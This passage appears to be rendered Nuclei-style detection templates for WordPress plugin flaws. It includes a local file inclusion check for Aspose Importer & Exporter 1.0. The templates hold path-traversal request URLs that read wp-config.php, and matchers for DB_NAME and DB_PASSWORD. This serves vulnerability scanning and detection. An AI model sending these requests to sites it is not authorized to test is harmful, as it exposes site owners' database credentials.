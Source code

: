 - {{BaseURL}}/?aam-media=wp-config.php

### Matchers

**Type - word**

- part - body
- words
  1. DB_NAME
  2. DB_PASSWORD
- condition - and

**Type - status**

- status
  1. 200

---

# WordPress Aspose Importer & Exporter 1.0 - Local File Inclusion

## Description

- WordPress Aspose Importer & Exporter version 1.0 is vulnerable to local file inclusion.
- severity - high
- tags - aspose,packetstorm,wordpress,wp-plugin,lfi

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/aspose-importer-exporter/aspose_import_export_download?file=../../../wp-config.php

### Matchers

**Type - word**

- words
  1. DB_NAME
  2. DB_PASSWORD
- part - body
- condition - and

**Type - status**

- status
  1. 200

---

